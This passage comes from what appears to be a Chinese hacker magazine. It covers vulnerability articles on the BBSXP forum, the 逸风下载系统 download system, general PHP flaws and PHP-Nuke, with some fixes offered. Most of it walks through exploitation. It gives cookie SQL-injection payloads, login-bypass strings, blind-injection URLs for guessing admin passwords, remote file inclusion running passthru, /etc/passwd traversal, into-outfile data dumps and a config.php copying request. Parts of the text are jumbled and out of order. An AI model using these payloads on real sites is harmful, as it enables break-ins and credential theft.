
```vb
conn.Execute("insert into log (username,ip,windows,remark) values ('"&Request.Cookies("username")&"','"&remoteaddr&"','"&Request.ServerVariables("HTTP_USER_AGENT")&"','"&message&"')")
```

Request.Cookies("username") 和 Request.ServerVariables("HTTP_USER_AGENT") 都是可以伪造的。以前在 dvBBS 中就曾经有人发现过对 Request.ServerVariables("HTTP_USER_AGENT") 的忽略而造成的漏洞，这里和 dvBBS 以前的漏洞几乎是一致的；如果在调用 log 子过程前面没有对上述的两个变量进行有效的判定和处理，那么这里也是一个潜在的威胁点。顺便说一句，这个威胁只存在于使用 MSSQL 的 BBSXP 中。

好了，对 setup.asp 的分析差不多就到这里了，所有 include 了 setup.asp 的文件都潜在地存在上述的威胁，以后具体的工作中，除了对本身文件的分析，还有就是看调用一些常用的子过程之前有没有我们刚才说到的那些问题，如果有，毫无疑问的就是漏洞，接下来的就应该是对漏洞利用的研究。

绕了一个大圈子，回来继续看 usertop.asp，从 include 往后，一句一句分析。

```vb
order=HTMLEncode(Request("order"))
```

order 被 HTMLEncode 函数处理了一遍，从刚才对 setup.asp 的分析来看，这个函数主要处理用户传递参数 order 中所包含的单引号和斜杠，直觉上这个处理并不完全。从名字 order 上看，十有八九是控制排序情况的变量，如果有注入，不管对于 Access 还是 MSSQL，都有很好的方法绕过单引号和斜杠的限制，所以这个过滤，实在是值得考虑。

接着的就是直接调用 top 子过程。前面的分析现在奏效了，果然是没有对 Cookie 的合法性做任何的检查就直接进行了调用，这是我们找到的第一个问题，肯定可以利用的第一个问题。

继续往下面看，在69行的时候有这么一句话：

```sql
sql="select * from [user] order by "&order&" Desc "
```

刚才的直觉看来是对的，order 在几乎没有经过任何处理的情况下就被用作了构造 SQL 语句的参数，这无疑是一个注入点，但是 select 语句的文法决定了这个在 Access 下面没有什么好的利用方法，如果对方是 MSSQL 的话，很容易就可以利用了。

好了，usertop.asp 差不多就是这么些东西，其中有两个比较明显的 SQL Injection，没有跨站的问题，也没有其他的逻辑问题。最后面的一个漏洞利用方法抛开不提，前面的那个 Cookie 造成的 Injection 利用，还需要进一步研究。

下面就 Cookie 来说一下猜测的问题，倘若对方用的是 MSSQL，问题就变得简单，而如果是 Access，用 Injection 来猜测对方密码之类表的内容的时候，还涉及到要有效的判定，再把 setup.asp 翻回来，看看有没有可以用来判定的。

on error resume next “找不到资料时忽略错误”

```vb
if Request.Cookies("userpass")<>rs("userpass") then Response.Cookies("username")=""
```

这是79和80行的代码。粗一看因为79行的存在，判定似乎变得有点困难，但80行又让我们看到了一丝曙光：如果正确的话，两行都被忽略了；而如果出错了，Response.Cookies("username")="" 会起作用。换句话说，如果在对密码进行猜测的时候有了点错，Cookie 中的 username 会被清除掉。下面还有一些代码可以帮助我们判定，不过这个地方就算是最主要的了，更重要的是这个判定很直观。

先拿出 iecv 来，依照一般的方式对 BBSXP 来进行一下测试。

先在 BBSXP 上注册一个合法的用户名，登录的时候选择记住密码，这样子浏览器就能帮我们提交保存有用户名和密码的 Cookie 了。打开 iecv，找到这个网站，改一下 Cookie 中的 username，测试一下几种情况。

- (1) username 改为 admin'。存盘后另外开一个 IE 窗口，请求 HTTP://www.xxxx.com/bbs/usertop.asp。这里要说明一下，如果就是在同一个窗口反复刷新的话得不到我们预期的结果，因为对于一个连接，IE 反复提交的 Cookie 是不会改变的，除非网站主动来要求改变当前的 Cookie，所以一定要另外开一个窗口。提交的结果是：

```text
Microsoft OLE DB Provider for SQL Server

错误 '80040e14'

字符串 'admin'' 之前有未闭合的引号。

/setup.asp，行 78
```

标准的出错信息。到了这一步，基本上就可以确定注入的存在，以后就是猜测和判定问题了。

- (2) username 改为 admin' and userpass<>'。按照上面的步骤，另外开一个窗口请求 HTTP://www.xxxx.com/bbs/usertop.asp，结果是在左上角出现了这样的字样：

```text
>>欢迎您, admin' and userpass<>'
```

和我们的预期效果是一样的：第一，Cookie 没有任何改变，整个页面顺利地出来；第二，用户名改变了，成了我们自己设定的那个 admin' and userpass<>'。顺便说一句，这是猜测为真的情况，因为整条 SQL 语句成为了：

```sql
select * from [user] where username='admin' and userpass<>'
```

返回来的结果包含了记录，而且在 top 子过程中，70行以后的代码都顺利地执行了。

- (3) username 改为 adminxxxxxxx。按照上面的步骤，另外开一个窗口请求 HTTP://www.xxxx.com/bbs/usertop.asp，结果是在左上角又有了些变化：

```text
>>欢迎您，请先登录
```

同样和我们设想的情况一样，Cookie 中的 username 被清空了，而且对于查询：

```sql
select * from [user] where username='adminxxxxxxx'
```

返回的查询记录是空的，Response.Cookies("username")="" 起了作用，最终导致了左上角的“请先登录”字样。不信的话返回到 iecv 中看看，Cookie 中的键 username 已经不见了。

这里我们又发现了一处 BBSXP 的缺陷，察看用户列表的时候，不一定要有一个合法的用户名，我们只要保证 Cookie 中的 username 键不为空就可以了，想必这与 BBSXP 的预期想法是不一致的。遗憾的是这只是一个缺陷，没有很大的利用价值。

下面就是实际的猜测了。

按照标准的猜测方法，先来判定一下用户 bigfoot 的存在性（其实从用户列表中我们已经看到这个用户了），理想中的 username 应该是这样的：

```text
admin' and 1=(select count(*) from [user] where username='bigfoot') and userpass<>'
```

但是当在 iecv 中修改后提交 usertop.asp 的时候，我们会惊奇地发现出现了上面的情况3！

理论上来说这是不可能的，因为我们的每一步分析都完美无缺，推出的结果也不可能错误。毫无疑问，应该出现的情况是2，但是实际上出现了情况3。回想中间的步骤，只有两个地方比较可疑：第一，测试的论坛和拿到的代码不一样；第二，我们依赖的 iecv 出了问题。

通过一系列的其他测试以后，目光集中到了 iecv 的身上。修改后的 Cookie 是否正确地写入了，或者说写入的 Cookie 是否和预期的一致，这一点我们是无法肯定的，但是我们可以用一个小伎俩来判定：先在自己的机器上装 BBSXP，注册登录然后用 iecv 修改 Cookie，停掉 IIS 用 nc -l -p 80 来伪装一个服务，用 IE 来提交一下 usertop.asp，最后得到了一个包，是在我自己的机器上得到的：

```text
GET /bbs/usertop.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-powerpoint, application/msword, application/vnd.ms-excel, */*
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)
Host: localhost
Connection: Keep-Alive
Cookie: cremite=0; userpass=F5BB0C8DE146C67B44BABBF4E6584CC0; username=admin%27+and+1=%28select+count%28%2A%29+from+%5Buser%5D+where+username=%27bigfoot%27%29+and+userpass%3C%3E%27
```

哈哈，看到问题了。最后一行的 Cookie 中，username 并不是我们预期的，原因是“=”直接作为 Cookie 的键值，而本身“=”应该是一个保留的特殊字符。解决的问题很简单：第一，注入中不包含“=”就可以了，用 between 和 <；第二，等于号的 ASCII 码是 61，换算过来应该是 %3D，用手工提交，不要用 iecv。

话又说回来，这次的收获可是不错，又发现了一个 iecv 的缺陷，那就是“=”没有编码成 %3D。如果不实际去做的话，很难想到 iecv 也会有这么低级的缺陷。

OK，所有的问题都已经解决，剩下的都是些体力活儿了。不写 exploit 的话，直接用手工猜还是稍微有点慢。写个程序仿造上面的整个报文来伪造 Cookie，然后根据返回来的数据中是否包含“请先登录”来进行判断，很快就可以把32位的 MD5 猜出来。接下来是暴力破解还是直接用猜出来的身份登录，就是每个人不同的选择了。对于 MSSQL 版本的 BBSXP 来说，上面几个地方都可以直接去插入 exec 之类的语句，几乎是一次性地就可以解决问题。

#### 后记

本文并没有给出攻击脚本，毕竟我们的最终目的不是让大家去破坏。不过如果你希望测试一下的话，可以使用作者在光盘中附带的 Exploit，不过，这里仅供技术交流和测试之用，不得用于破坏目的。在此，我们也希望广大 BBSXP 论坛的用户及时打上相应补丁，做好防范工作。

### 逸风下载系统漏洞大曝光

脚本小子：逸风下载系统由于自身良好的交互性，被越来越多的人在建设网站时所采用。从视觉效果、完善的功能等方面来讲它确实值得人称道，但是其安全性方面，却让人有些汗颜。一个好的系统不应只停留在改善美观和功能上，安全性也是需要我们去提高的。不过，难以想像的是，下面作者竟然研究出了这套下载系统的一大堆严重漏洞，颇为令人吃惊！现在逸风系统正被广泛地使用，各位“脚本小子”和网络管理员可要注意了！

前几天，一个朋友想更新自己的一个下载软件网站，要求功能强大、制作美观、有会员制、能方便提交下载程序、安全的 ASP 代码，选来选去最终安装了逸风下载系统 2.5 正式版。我当然逃脱不了要为他检测网站安全性的“责任”，而且还限期3天（哼！好“狠毒”的人啊）。

我们先了解一下这套下载系统的大致情况：逸风下载系统由 http://www.yf520.com 的逸风恋影开发，从逸风下载系统 1.0 版到现在的逸风下载系统 2.5 版+SP3 版，各大 ASP 源代码下载基地都提供下载，且名列前茅，理论上来说讲应该没什么大问题。下载一个最新版本（逸风下载系统 2.5 版+SP3 版）并痛苦地看了源代码一整天，着实很是吃惊，漏洞不少啊！

#### 漏洞清单

以下列举多处明显存在问题的代码段，并提出解决办法。

### 1) loginchk.asp：注册用户的注册名和密码验证漏洞

首先打开 login.asp，可以看到其中有如下代码：

```asp
<form method="post" action="loginchk.asp?action=login" name="login">
```

再打开 loginchk.asp，查找如下代码：

```asp
set rs=server.createobject("adodb.recordset")
sql = "SELECT * FROM user where uid='" & uid & "' and pwd='" & pwd & "'"
```

这里明显可以看出作者的网页程序编写经验不足，出现的是前几年很常见的 ASP 编写漏洞——特殊字符过滤问题。我们可以提交“用户名'or'1'='密码'or'='!'”或已知任意注册用户 id（可以从评论或上传的名单中查找，这里举例为 test），则可以提交用户名“test' or'1'”，密码可任意但是不能不填，这样就可以登录了。

原理很简单，我们提交的是如下 SQL 语句：

```sql
sql = "SELECT * FROM user where uid='test' or '1' and pwd='" & pwd & "'"
```

这样不需要任何注册程序，就将直接成为注册会员（系统默认为普通用户）。

解决办法：把表格提交语句：

```asp
uid=trim(request("uid"))
pwd=trim(request("pwd"))
```

改成：

```asp
uid=replace(trim(request("uid")), "'", " ")
pwd=replace(trim(request("pwd")), "'", " ")
```

把特殊字符 `'` 用空格代替。

当然，其他常见的办法还有：限制用户的注册名字中不允许使用连字符号，然后在代码中首先检测输入的用户名，删除其中所有的连字符号，并显示输入错误或不符合登录规范的回显等。

我个人认为最好的办法就是将用户登录名称、密码等数据加密保存。加密用户输入的数据，然后再将它与数据库中保存的数据比较，意思就是用户在输入数据的同时，系统就首先加以判断和限制，此时用户输入的数据不再对数据库有任何特殊的意义，从而防止了攻击者采取诸如此类的注入攻击方式。System.Web.Security.FormsAuthentication 类有一个 HashPasswordForStoringInConfigFile 就是用于这方面检测的，我们经常能在语句严谨的程序中找到关于它的使用。

### 2) 程序多处可以被 SQL 注入

由于采用 ASP+Access 的组合，而没有注意程序编写，所以有很多 .asp 能被注入。例如 class.asp、list.asp、Special.asp、listfunction.asp 等，下面以 class.asp 为例演示这个漏洞。

首先导入 class.asp 的源代码（详细代码见光盘杂志相关栏目；按文章名查找即可），全部看完，意识到了什么？class.asp 对 id 没有经过任何检查就直接放到 SQL 查询中，提交经过特殊构造的 Access 数据库查询语句就能被系统执行。操作如下：

```text
class.asp?id=14' and exists (select * from admin)           // 确定有 admin 表段
class.asp?id=14' and exists (select id from admin)          // 确定 admin 里有 id 段
class.asp?id=14' and exists (select UserName from admin)    // 确定 admin 里有 UserName 段
class.asp?id=14' and exists (select passWD from admin)      // 确定 admin 里有 passWD 段
class.asp?id=14' and exists (select id from admin ...)
```

where id=12) /* 确定有 id=12 的超级管理员

class.asp?id=14' and exists (select id from admin
where len(passWD)=6 and id=12) /* 确定密码 6 位

class.asp?id=14' and exists (select id from admin
where len(username)=5 and id=12) /* 确定管理员名字 5 位

接下去就可以依次对每位字符进行查询，多次提交后就能猜出管理员用户名。

#### 解决办法

检测非法的 id 提交，过滤非法符号，但这不是解决问题最根本的办法。经过相关资料的查询，我找到了现在比较好的解决办法。在源代码中使用 Rem 函数判断 request("xxxx") 后面的参数是否为整形数字，如果不是就返回提示提交错误的回显。判断函数如下：

```vb
Public Function Chkrequest(Para)
    Chkrequest=False
    If Not (isNull(Para) Or Trim(Para)="" Or Not IsNumeric(Para)) Then
        Chkrequest=True
    End If
End Function
```

将这个函数写在源代码中，应用这种方法，我们就能在 SQL 查询之前，对 id 加以验证：

```vb
if NOT chkrequest(request("id")) then
    ' 如果 request("id") 不是整形数值或后面有非 & 这类的数量就跳转到 err.asp
    response.redirect("err.asp")
else
end if
```

现在能被 SQL 注入攻击的程序代码很常见，如金梅电影系统、金梅下载系统、bbsxp 论坛、动网论坛等。通过 SQL 注入，攻击者能在很短时间内取得管理员的权限，危害性极大。

## 3）/admin/admin_login.asp 管理员登入漏洞

在 admin_login.asp 文件中有如下 一段代码：

```vb
Set ts = Server.CreateObject("ADODB.Recordset")
sql = "SELECT * From admin where UserName='" & admin & "' and passwd='" & passwd & "'"
```

也就是说，如果管理员名字叫 stasi，我们提交用户名：stasi' or'1，密码随便填，使得实际提交语句为：

```vb
sql = "SELECT * FROM user where uid='stasi' or '1' and pwd='" & pwd & "'"
```

其后果就是直接能进入后台的管理区。其原理和第一个漏洞如出一辙，十分危险。解决办法同第一个漏洞。

##### 4）数据库任意下载漏洞

提交 http://127.0.0.1/ADMIN/DATA/MYNET.mdb，默认路径下的数据库将被下载。使用帮助里提示用户修改数据库后缀为 .asp 或 .asa，但我们还是可以使用下载软件如网际快车等进行下载，再重命名为 mynet.mdb。用 Access 打开，所有的数据都一览无余。即便设置了数据库密码，通过数据库解密软件也能轻易地破解，毫无安全可言。

#### 解决办法

在 ASP 等程序设计中，如果有条件，应尽量使用 ODBC 数据源，不要把数据库名写在程序中，例如 conn.asp 源代码中：

```vb
DBPath = Server.MapPath("admin/data/mynet.mdb")
conn.Open "driver={Microsoft Access Driver (*.mdb)};dbq=" & DBPath
```

只要 conn.asp 的代码被看见，数据库的地址也就暴露了。可见，即使数据库名字起得再怪异，隐藏的目录再深，ASP 源代码失密后，也很容易被下载下来。

如果使用 ODBC 数据源，就不会存在这样的问题：conn.open “ODBC-DSN 名”。或者添加数据库名的扩展映射（如 MDB：在 IIS 属性->主目录->配置->映射->应用程序扩展添加 .mdb 文件的应用解析，最好不要是 .asp），这也是现在流行的做法，可以起到一定的保护作用。

就是说任意浏览者都能提交；没有限制提交的次数，就是说有受到恶意多次提交攻击的可能；没有限制提交内容的一致性，就是说搞个网页刷新软件就可以使得后台软件管理乱成一片。因此，网友上传功能的开启，还是一个需要再三考虑的问题。

##### 5）上传文件 admin_downadd.asp 存在漏洞

首先打开 admin_downadd.asp，查看如下的一段代码：

```javascript
function cheform(theForm)
{
    if (theForm.title.value == "")
    {
        alert("软件名不能没有吧！")
        theForm.title.focus()
        return (false)
    }

    if (theForm.url.value == "")
    {
        alert("软件下载地址一个都没有，不可能吧！")
        theForm.url.focus()
        return (false)
    }

    if (theForm.Nclassid.value == "")
    {
        alert("分类为空怎么行呢，回去吧！")
        theForm.Nclassid.focus()
        return (false)
    }

    return (true)
}
```

这里 admin_downadd.asp 只是简单地检测提交的表单是否空缺，并没有检测是否为本站的注册用户。

在提交软件下载连接前做好验证工作。用 Session 或 Cookies 的验证方法都是现在很好的策略。这里我用 Session 语句做个验证示范。

检测提交表单用户是否已经登录，如加入以下语句：

```asp
<%if session("username")="" or session("password")="" then
    response.write "<script language=javascript>"
    alert("你没有登陆，不能提交软件下载连接")
    response.write "history.back()"
    response.write "</script>"
    response.end
end if
%>
```

检测提交表单用户是否已经是已注册用户（在实际情况中，也可以验证用户的等级），如加入以下语句：

```asp
<%
useid=session("username")
sql="select * from user where uid='"&usid&"'"
set rs=server.createobject("ADODB.Recordset")
rs.open sql,conn,1,1
if rs.eof or rs.bof then
    response.write "<SCRIPT language=JavaScript>alert('对不起，你不是注册用户，请先注册！');"
    response.write "javascript:history.go(-1)</SCRIPT>"
end if
%>
```

验证是否是从本地的服务器提交，可加入以下的语句：

```vb
dim server_v1,server_v2
chkpost=false
server_v1=Cstr(Request.ServerVariables("HTTP_REFERER"))
server_v2=Cstr(Request.ServerVariables("SERVER_NAME"))
if mid(server_v1,8,len(server_v2))<>server_v2 then
    chkpost=false
else
    chkpost=true
end if
end function
```

网页了，而并不是一眼看上去的 163.com 下载基地的页面。

关于 URL 地址欺骗的手法太多了。再比如针对本网站，我们可以提交：`http://www.163.com/download/websoft/softview?id=1@127.0.0.1/admin/admin_UserMana.asp?ID=39&act=pass&templev=4`（注 127.0.0.1 实际应改为网站实际的地址），造成管理员审核软件的过程中，实际上是把 id=39 的用户从待审核的用户状态，直接提升为已审核的超级用户，权限仅次于管理员，其中的危险性不可小觑。

确定有权限提交表单之后，还要限制提交次数、提交时间间隔、对恶意提交的警告、对恶意提交的用户的账号限制等等！

##### 6）admin_downadd.asp 存在可以提交任何 URL 连接漏洞

同样是 admin_downadd.asp 文件，其代码中验证提交的 URL 有：

#### 案例成功法宝

思考一下，能不能限制 id 为整数型？回答当然是不可以的，用户提交的连接不是你能够决定的！可行的方法就是在代码中去掉“@”这个字符；但转念一想也不行，如果用户提交的是带用户名和密码的 ftp 下载地址呢（在 URL 里本身就带有 @）？看来解决的最终办法还是要管理员自己有一定的 URL 识别能力才行。（PS：原来代码说明书里还要附带《黑客防线》的电子版本，提高使用者的反黑能力才行）

```javascript
if (theForm.url.value == "")
{
    alert("软件下载地址一个都没有，不可能吧！");
    theForm.url.focus();
    return (false);
}
```

它只是验证 URL 是否为空，随便填好后就能通过，难道作者没有考虑到 URL 地址欺骗的因素吗？引申开来，如果用户提交恶意 URL 地址，进行 URL 欺骗或者利用网上随处可见的域名转向，使软件下载连接导向一个恶意的 URL，结果不言而喻。

我们来举个实际应用的例子，假如我们在 addsoft.asp 的页面中填上 `http://www.163.com/download/websoft/softview?id=1@www.hacker.com.cn`，则点击者看到的就是黑客防线的网页了，而并不是一眼看上去的 163.com 下载基地的页面。

### 总结

我最终给出对逸风下载系统的评价：功能强大、制作美观，网友自助添加程序在同类代码中独树一帜，但安全性能较差，漏洞较多，源代码编写不够简练。

这次我对逸风下载系统 2.5 版的测试是一次很偶然的事，然而却发现这么多的漏洞，很让人吃惊，其中的几个漏洞都是几次在以前的检测报告中提到的，在最新版的代码中依然可以找到，这不是逸风下载系统所特有的，而是现今大多数的程序代码共有的通病。对于建网者来说，在选择花哨版面、功能新奇的代码的同时，更要注重网站的安全性能；而对于程序员来说，他山之石，可以攻玉。程序员在编程的同时一定要看看同类代码的编写方法，“取其精华，去其糟粕”，这样自己的水平才会有所提高！

脚本小子：SQL 注入攻击着实地火了一段时间，即使现在看来，也有“愈演愈烈”的迹象，但就目前来讲，SQL 注入攻击主要针对的是 ASP，那对于 PHP 来讲，是不是会“幸免于难”呢？相信看完此文，你一定不会这样认为的。

- **难度等级**：中级
- **前置知识**：PHP 编程基础

### PHP 网站漏洞之我见

文／NB 联盟-zwell

从现在的网络安全来看，大家最关注的、接触最多的 Web 页面漏洞当属 ASP 了。然而在 PHP 方面，也同样存在严重的安全问题，不过这方面的文章相对较少一些，这里就跟大家来讨论一下 PHP 页面的相关漏洞。

目前常见的 PHP 漏洞大致分为以下几种：包含文件漏洞、脚本命令执行漏洞、文件泄露漏洞、SQL 注入漏洞等几种。至于 Cookie 欺骗等一部分通用的技术这里就不过讨论了。

存在类似漏洞的还有：PayPal Store Front、HotNews、Mambo Open Source、PhpDig、YABB SE、phpBB、InvisionBoard、SOLMETRA SPAW Editor、Les Visiteurs、PhpGedView、X-Cart 等。

> 编者注：如果 Web 服务器不能执行 PHP 代码，相关详情可以参考《如何对 PHP 程序中的常见漏洞进行攻击》一文。

b.php 中写入类似于：`passthru("/bin/ls /etc")`；的代码，使其具有一定目的的攻击。

#### 漏洞利用

下面我们来逐一分析 PHP 漏洞的产生原因，以更好地加深理解。

### 1. 包含文件漏洞

这个漏洞应该说是 PHP 独有的，这是由于不充分处理外部提供的恶意数据，从而导致远程攻击者可以利用漏洞以 Web 进程权限在系统上执行任意命令。先来看一个例子。

假设在 a.php 中有这样一句代码：

```php
<?php
include($include."/xxx.php");
?>
```

这段代码中 $include 一般是一个已经设置好的路径，但是我们可以通过自己构造一个路径来达到攻击目的。提交：a.php?include="http://web/b.php，其中 Web 代表我们用做攻击的空间，b.php 是我们用来攻击的代码。b.php 中写入类似于：`passthru("/bin/ls /etc")`；的代码，使其具有一定目的的攻击。

### 2. 脚本命令执行漏洞

此漏洞的产生是由于对用户提交的 URI 参数缺少充分过滤，提交包含恶意 HTML 代码的数据，可导致触发跨站脚本攻击。

比如 PHP Transparent 4.3.1 以下版本中的 index.php 页面，源代码中对 PHPSessID 缺少充分的过滤，可以通过这样的代码来达到攻击目的：`http://web/index.php?PHPSESSID="><script>...</script>`，在 script 里可以构造函数来获得用户的一些敏感信息。

有类似漏洞的除了 PHP Transparent 之外，还包括 PHP-Nuke、phpBB、PHP Classifieds、PHPix、Ultimate PHP Board 等。

### 3. 文件泄露漏洞

由于对用户提交参数缺少充分过滤会产生文件泄露漏洞。泄露漏洞，远程攻击者利用它可以进行目录遍历攻击以及获取一些敏感信息。

我们以 phpMyAdmin 为例来说明。在 phpMyAdmin 中，export.php 页面没有对用户提交的 `what` 参数进行充分过滤，远程攻击者提交包含多个 `../` 字符的数据，便可绕过 Web Root 限制，从而能够以 Web 权限查看系统上的任意文件信息，命令如下：`export.php?what=../../../../../../etc/passwd%00`。

有此漏洞的包括 myPHPNuke 和 McNews 等。

## 4. SQL 注入漏洞

可以说这个漏洞是最令人兴奋的，想想平时在 ASP 页面中用 SQL 注入进行攻击有多爽。我们可以自己进行手动注入，也可以用小竹专门针对 SQL 注入攻击写的 NBSI 进行攻击。其实，针对 ASP 的 SQL 注入攻击和针对 PHP 的 SQL 注入攻击大同小异，只不过稍微注意一下用的几个函数就可以了，比如将 asc 改成 ASCII，len 改成 LENGTH 等。

说起 PHP 的 SQL 注入攻击的对象，我们自然会想到 PHP-NUKE 和 PHPBB，俗话说得好：树大招风嘛！现在很大一部分人选择 PHP 论坛时都会选择 PHPBB，它以良好的界面和功能深受大家的喜爱，当然关于它的漏洞也是层出不穷。从最早的 PHPBB 1.4.0 版本到最近的 PHPBB 2.0.6 版本，大大小小的漏洞加起来大概也有十几个了。

言归正传，我们来分析一下漏洞产生的原因。比如 PHPBB 2.0.5 中的 viewtopic.php 页面，在调用时直接从 GET 请求中获得 topic_id 并传递给 SQL 查询命令，而没有进行一些过滤的处理，造成攻击者可以提交特殊的 SQL 字符串来非法获得 MD5 密码。先看一下相关源代码：

```php
if ( isset($HTTP_GET_VARS[POST_TOPIC_URL]) )
{
    $topic_id = intval($HTTP_GET_VARS[POST_TOPIC_URL]);
}
```

```php
else if ( isset($HTTP_GET_VARS['topic']) )
{
    $topic_id = intval($HTTP_GET_VARS['topic']);
}
```

从上面我们可以看出，如果提交的 view=newest 并且 sid 设置了值的话，执行的查询代码就变成了下面的内容：

```sql
$sql = "SELECT p.post_id
FROM " . POSTS_TABLE . " p, " . SESSIONS_TABLE . " s, " . USERS_TABLE . " u
WHERE s.session_id = '$session_id'
AND u.user_id = s.session_user_id
AND p.topic_id = $topic_id
AND p.post_time >= u.user_lastvisit
ORDER BY p.post_time ASC
LIMIT 1";
```

这里可以利用 Rick 提供的测试代码来获得 HASH 值。

> 注：
>
> Rick 测试代码请见光盘杂志相关栏目中的 Rick.txt 文件，按照文章名查找即可。

还有一点，在进行 SQL 注入时，PHP 与 ASP 有所不同。Mysql 对 SQL 语句的运用没有 MSSQL 灵活，很多在 MSSQL 上可以用的查询语句在 Mysql 数据库中却不能奏效。一般常见的注入语句可以是：`aaa.php?id=a' into outfile 'pass.txt` 或 `aaa.php?id=a' into outfile 'pass.txt' /*`，当然我们也可以改成：`aaa.php?id=a' or 1=1 union select id,name,password form users into outfile 'c:/a.txt`，执行后可以将数据库数据导出为文件进行查看。再比如 `mode=' ,user_level='4` 这条语句，它一般用来修改资料，不过也可以达到提升权限的作用。

脚本小子：在ASP脚本不断被发现存在各种漏洞的同时，利用PHP编写出来的系统也同样没有“幸免于难”，PHP脚本的漏洞丝毫不亚于ASP脚本所带来的危害性，很多方面甚至“有过之而无不及”。事实果真如此吗？看了下文，你一定会相信的。

### 玩转 PHP-Nuke



撰文/图 蓝凌汉强

“PHP-Nuke”是一个用来架设入口网站的系统，其设计目的就是要快速能够架设起一个类似有会员管理形式、新闻发布形式、讨论区的入口网站（图1）。



目前被广泛使用的“PHP-Nuke 6.5”存在着多个系统漏洞，远程攻击者有可能利用这些弱点在受影响的系统上进行非法入侵，某些漏洞目前尚未提供修正补丁或者相关防护措施。并且在网络上已有入侵工具可供下载，此工具可利用漏洞来篡改“PHP-Nuke”网站上所发布的信息，让恶意的黑客可以更轻易、快速地进行入侵。

print.php 文件包含“News”和“AvantGo”两个模块，用于阻止变量 $sid 的存在，但其内容是不受限制的，如果内容为 NULL，将导致出现缺陷。攻击者通过向目标机器发送下列格式的精心构造的 HTTP 请求，将触发该缺陷：

```text
http://www.target.x/modules.php?name=AvantGo&file=print&sid=

http://www.target.x/modules.php?name=News&file=print&sid=
```

（2）攻击者利用下列格式的 HTTP 请求能使用户利用 PHP-Nuke 的“Forums”（Splatt Forums 3.2）模块中存在的另一个缺陷：

```text
http://www.target.x/modules.php?op=modload&name=Forums&file=attachment&AtchOp=show
```

#### 发作症状

- 1. PHP-Nuke 的 print.php 文件中存在路径泄露缺陷。

- 3. Members_List 以及 Your_Account 模块存在有 SQL Injection 的漏洞，可以让恶意的使用者列出网站上所有的使用者名称，同时能够更改任何使用者的登录密码（图2）。

http://127.0.0.1/admin.php?upload=1&file=config.php&file_name=mytest.txt&wdir=/images/&userfile=config.php&userfile_name=hacked.txt，将 PHP-Nuke 的配置文件 config.php 复制到 phpnuke 目录下的 images/mytest.txt，在浏览器上输入：http://127.0.0.1/images/mytest.txt，就可以看到 config.php 的内容了，当然包括里面的 SQL 密码等信息。

PHP-Nuke 的漏洞甚至还可以将文件复制到 phpnuke 以外的目录，我们在 Linux 下输入命令：ls -la，可以看到图4所示的结果。

